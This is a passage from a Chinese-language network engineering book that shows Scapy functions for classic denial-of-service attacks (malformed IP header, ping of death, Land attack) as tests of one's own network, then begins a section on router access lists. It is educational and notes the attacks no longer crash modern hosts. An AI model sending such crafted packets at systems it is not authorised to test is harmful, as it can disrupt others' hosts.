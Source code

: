 到目前为止，希望你会同意我的观点，通过拥有构建自定义数据包的能力，你可以掌控你想要运行的操作和测试类型。沿着使用 Scapy 构建自定义数据包的思路，我们也可以构建数据包来对我们网络进行安全测试。

## 常见攻击

在这个例子中，让我们看看我们如何构建我们的数据包来进行一些经典攻击，比如 *死亡之 ping* ([`en.wikipedia.org/wiki/Ping_of_death`](https://en.wikipedia.org/wiki/Ping_of_death)) 和 *Land 攻击* ([`en.wikipedia.org/wiki/Denial-of-service_attack`](https://en.wikipedia.org/wiki/Denial-of-service_attack))。这些是以前你必须用类似商业软件付费的网络渗透测试。使用 Scapy，你可以在保持完全控制的同时进行测试，并在将来添加更多测试。

第一种攻击发送一个带有虚假 IP 头的数据包到目标主机，例如 IP 头长度为两个和 IP 版本为三个：

```py
def malformed_packet_attack(host): 
       send(IP(dst=host, ihl=2, version=3)/ICMP()) 
```

`ping_of_death_attack` 由一个负载大于 65,535 字节的常规 ICMP 数据包组成：

```py
def ping_of_death_attack(host):
    # https://en.wikipedia.org/wiki/Ping_of_death
    send(fragment(IP(dst=host)/ICMP()/("X"*60000))) 
```

`land_attack` 试图将客户端的响应重定向回客户端，并耗尽主机的资源：

```py
def land_attack(host):
    # https://en.wikipedia.org/wiki/Denial-of-service_attack 
    send(IP(src=host, dst=host)/TCP(sport=135,dport=135)) 
```

这些是相当古老的漏洞或经典攻击，现代操作系统已经不再容易受到它们的影响。对于我们的 Ubuntu 20.04 主机，上述任何攻击都不会使其崩溃。然而，随着更多安全问题的发现，Scapy 是一个很好的工具，可以在等待受影响的供应商提供验证工具之前，对我们的网络和主机进行测试。这在互联网上越来越常见的零日（未提前通知发布）攻击中尤其如此。Scapy 是一个可以做很多我们在这个章节中无法涵盖的事情的工具，但幸运的是，Scapy 有许多开源资源可供参考。

## Scapy 资源

我们在这一章中花费了很多努力与 Scapy 合作。这部分的理由是我对工具的高度评价。我希望你同意 Scapy 是我们网络工程师工具集中的一个伟大工具。Scapy 最好的部分是它始终由一个活跃的用户社区进行开发。

我强烈建议至少浏览一下 Scapy 教程 [`scapy.readthedocs.io/en/latest/usage.html#interactive-tutorial`](http://scapy.readthedocs.io/en/latest/usage.html#interactive-tutorial)，以及任何对你感兴趣的文档。

当然，网络安全不仅仅是构建数据包和测试漏洞。在下一节中，我们将探讨自动化通常用于保护敏感内部资源的访问列表。

# 访问列表

网络访问列表通常是抵御外部入侵和攻击的第一道防线。一般来说，路由器和交换机通过利用高速内存硬件（如 **三值内容可寻址存储器**（TCAM））来处理数据包的速度比服务器快得多。它们不需要看到应用层信息。相反，它们只需检查第 3 层和第 4 层的头部信息，并决定是否可以转发数据包。因此，我们通常将网络设备访问列表作为保护网络资源的第一步。

根据经验法则，我们希望将访问列表尽可能靠近源（客户端）放置。本质上，我们也信任内部主机，不相信网络边界之外的客户端。因此，访问列表通常放置在外部网络接口的入站方向。在我们的实验室场景中，这意味着我们将在 `nyc-cor-r1` 的 Ethernet2/2 上放置一个入站访问列表，该接口直接连接到客户端主机。

如果你对访问列表的方向和位置不确定，以下几点可能对你有所帮助：

+   从网络设备的角度思考访问列表。
